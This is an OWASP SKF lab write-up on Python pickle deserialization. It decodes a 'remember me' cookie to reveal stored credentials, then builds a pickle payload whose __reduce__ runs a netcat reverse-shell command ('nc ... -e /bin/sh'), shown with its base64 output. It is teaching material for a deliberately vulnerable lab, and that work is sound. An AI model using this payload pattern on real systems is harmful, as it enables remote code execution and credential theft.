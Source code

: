 # KBID xxx - Deserialization - Pickle-2

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:DES-Pickle-2
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:DES-Pickle-2
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ING!](.gitbook/assets/ing_primary_logo.png)

## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution. 

Lets start the application and register a new user

![](.gitbook/assets/DES-Register.png)

![](.gitbook/assets/DES-Register2.png)

Please note that (for convenience) your password will be reset if the user already exists.
Also note that the username and password are case sensitive.

Now that we have valid credentials, we can login:

![](.gitbook/assets/DES-Login1.png)

You can check the 'remember me' checkbox if you want to login next time without providing credentials.

After providing the correct credentials we're logged in:

![](.gitbook/assets/DES-Loggedin.png)

To logout, use the link/button in the upper right corner.

The goal is to find where the application uses serialization and create your own serialized object to spawn a reverse shell.

## Exploitation

Once we've successfully logged in using the rememberme checkbox, we can return to the login screen any time and login just by clicking the 'Submit Button' without providing credentials:

![](.gitbook/assets/DES-Rememberme1.png)

This results in the following request and response:

![](.gitbook/assets/DES-Rememberme2.png)

This works because we received a rememberme cookie during our initial login:

![](.gitbook/assets/DES-Rememberme3.png)

As you might have guessed, the remember me cookie is a serialized object, (probably containing your credentials) which will be deserialised and verified, once you submit the login form. This functionality provides you an easy login without entering credentials, but it is not without risk ! If we can deserialise it, the credentials will be leaked. In addition, we can create our own object that that will be deserialized and instantiated if we submit it to the webserver.

If we know or guess the used technology (in this case:pickle serialisation in python), we can try to deserialise the object

```python
import pickle, base64
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
print(pickle.loads(base64.b64decode(b64)).__class__)
```

This shows us the object is an instance of the usr class.
So we can enumerate the properties of the object as follows:

```python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
a = pickle.loads(base64.b64decode(b64))
print(dir(a))
```

```text
This will output the following:
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'password', 'username']
```
The attributes we were looking for are 'password' and 'username'

Putting it all toghther:
```Python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
a = pickle.loads(base64.b64decode(b64))
print(a.username)
print(a.password)
```

Although the above was nice to understand what serialization comprehends, we still need to exploit the vulnerability ;-)

To exploit the vulnerability we'll create an object that runs a system command to start a reverse shell.
After instanciating the object, we serialize it and base64 encode it. This output will be our payload. 


```Python
import pickle, base64,os

class skf(object):
  def __reduce__(self):
    return (os.system,("nc -nv 127.0.0.1 1234 -e /bin/sh",))

a = skf()
ser = pickle.dumps(a)
print (base64.b64encode(ser))
```

This will yield the following output:
```Text
gANjcG9zaXgKc3lzdGVtCnEAWCAAAABuYyAtbnYgMTI3LjAuMC4xIDEyMzQgLWUgL2Jpbi9zaHEBhXECUnEDLg==
```

Now we prepare a net cat listner on our machine, ready to receive the reverse shell:

![](.gitbook/assets/DES-nc-listner.png)

We can submit our malicious payload in Burp Suite Repeater by replacing the cookie value with the one we generated above:
![](.gitbook/assets/DES-Sendpayload.png)

A revers shell is is connected:
![](.gitbook/assets/DES-Shell.png)



## Additional sources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html" caption="" %}

